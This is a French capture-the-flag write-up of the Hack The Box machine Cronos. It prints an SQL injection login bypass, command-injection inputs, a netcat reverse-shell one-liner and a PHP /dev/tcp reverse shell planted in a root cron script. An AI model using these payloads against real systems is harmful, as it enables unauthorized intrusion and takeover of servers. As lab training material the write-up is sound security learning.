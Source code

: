 ```yaml
---
title: "Write-up : Hack The Box - Cronos [MEDIUM]"
date: 2025-06-08T00:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["HackTheBox", "CTF", "Linux", "SQLi", "Command Injection", "Crontab", "Privilege Escalation"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution complète du challenge Hack The Box Cronos, de l'injection SQL à l'élévation de privilèges via crontab."
---
```


<!--more-->

# **Write-up : Hack The Box - Cronos [MEDIUM]**

{{< admonition info "Informations sur la Box" >}}
*   **Nom :** Cronos
*   **Plateforme :** Hack The Box
*   **Difficulté Annoncée :** Medium
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
*   **IP cible :** 10.129.227.211
{{< /admonition >}}

## **Introduction**

Cette box Medium de Hack The Box nous invite à exploiter une application web vulnérable aux injections SQL et de commandes.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Commençons par identifier les services sur la machine cible avec un scan Nmap.

```bash
nmap -sC -sV 10.129.227.211
```

![NMAP](/images/imagescrnos/image-2.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts :

*   **Port 22 (SSH) :** OpenSSH 7.2p2 Ubuntu - Service SSH pour l'accès distant
*   **Port 53 (DNS) :** ISC BIND 9.10.3-P4 - Service DNS, parfait pour l'énumération de sous-domaines
*   **Port 80 (HTTP) :** Apache httpd 2.4.18 Ubuntu - Serveur web principal

Le service HTTP sera notre cible principale, et la présence du DNS suggère des sous-domaines à découvrir.
{{< /admonition >}}

### **2. Exploration Web & Énumération de Sous-domaines**

Le site principal ne révèle rien d'intéressant. Let's go énumérer les sous-domaines avec gobuster :

```bash
gobuster vhost -u "cronos.htb" -w /usr/share/wfuzz/general/common.txt --append-domain
```



{{< admonition tip "Découverte Cruciale - Sous-domaine Admin" >}}
L'énumération révèle **admin.cronos.htb**. N'oublions pas de l'ajouter dans notre `/etc/hosts`.
{{< /admonition >}}

## **Phase 2 : Exploitation - Injection SQL**

### **Analyse du Panneau d'Administration**

En visitant `admin.cronos.htb`, nous découvrons une page de connexion classique. Après avoir examiné le code source sans succès, testons les vulnérabilités d'injection SQL les plus communes.

### **Bypass d'Authentification SQL**

Tentons une injection SQL classique pour contourner l'authentification :

```sql
admin' -- -
```


![gobuster](/images/imagescrnos/image-3.png)



{{< admonition success "Injection SQL Réussie !" >}}
L'injection SQL fonctionne parfaitement ! Nous accédons au dashboard admin.
{{< /admonition >}}

![sqlmeme](/images/imagescrnos/1_YGBbNkBIEvmiDFGC3dXpDw.jpg)

## **Phase 3 : Exploitation - Injection de Commandes**

### **Analyse du Dashboard**

Le dashboard présente un outil "Net Tool v0.1" permettant d'exécuter des commandes comme traceroute et ping. On dirait qu'on va devoir injecter de la commande par ici ! 

### **Test d'Injection de Commandes**

Testons l'injection de commandes en ajoutant des commandes supplémentaires après une adresse IP valide :

```bash
8.8.8.8; ls
```

La commande s'exécute avec succès ! Nous pouvons maintenant explorer le système :

```bash
8.8.8.8; cat /home/nolis/user.txt
```

{{< admonition success "Flag Utilisateur Obtenu !" >}}
L'injection de commandes fonctionne parfaitement et nous permet de récupérer directement le flag utilisateur depuis `/home/nolis/user.txt`.
{{< /admonition >}}

## **Phase 4 : Obtention d'un Shell Interactif**

### **Configuration du Reverse Shell**

Pour un meilleur contrôle de la machine, établissons un reverse shell. Utilisons un payload classique :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 5555 >/tmp/f
```

```bash
nc -lnvp 5555
```

Et exécutons le payload via l'interface web. Nous obtenons un shell en tant qu'utilisateur `www-data`.

![dashboard](/images/imagescrnos/image-4.png)


## **Phase 5 : Élévation de Privilèges - Analyse du Système**

### **Exploration des Privilèges et Processus**

En tant que `www-data`, nos privilèges sont limités. Le nom de la box "Cronos" suggère que l'élévation de privilèges implique les tâches cron.
C'est assez commun à HTB donc vérifions ! 
```bash
cat /etc/crontab
```

![revshell](/images/imagescrnos/image-5.png)


### **Découverte Cruciale - Tâche Cron Root**


{{< admonition warning "Tâche Cron Vulnérable Identifiée !" >}}
BINGO! Le système exécute régulièrement le script `/var/www/laravel/artisan` en tant que root. 
{{< /admonition >}}

## **Phase 6 : Exploitation de la Tâche Cron**

### **Modification du Script Artisan**

Remplaçons le contenu du script `artisan` par un reverse shell qui se connectera à notre machine :

```bash
echo '<?php exec("bash -c '\''bash -i >& /dev/tcp/10.10.14.22/5556 0>&1'\''");' > /var/www/laravel/artisan
```

### **Configuration de l'Écoute**

```bash
# Sur notre machine d'attaque
nc -lnvp 5556
```

### **Attente de l'Exécution Automatique**

Patientons le temps que la tâche cron s'exécute automatiquement (toutes les minutes)....

![waiting](/images/imagescrnos/ba7o0.jpg)

![artisan](/images/imagescrnos/image-6.png)

{{< admonition success "Root Obtenu !" >}}
Le reverse shell s'active et nous obtenons un accès root ! La manipulation de la tâche cron fonctionne parfaitement.
{{< /admonition >}}

### **Récupération du Flag Root**

```bash
id
cat /root/root.txt
```

## **Conclusion**

{{< admonition summary "Résumé de l'Exploitation" >}}
Cette box Cronos est pas mal et nous permet de voir : 

1. **Énumération DNS** 
2. **Injection SQL** 
3. **Injection de commandes** 
4. **Reverse shell** 
5. **Analyse des crontabs** 
6. **Manipulation de fichiers** 

{{< /admonition >}}

Box très accessible pour une "Medium", parfaite pour comprendre l'importance de l'énumération complète et l'exploitation des cronjobs.

![pwn](/images/imagescrnos/image.png)
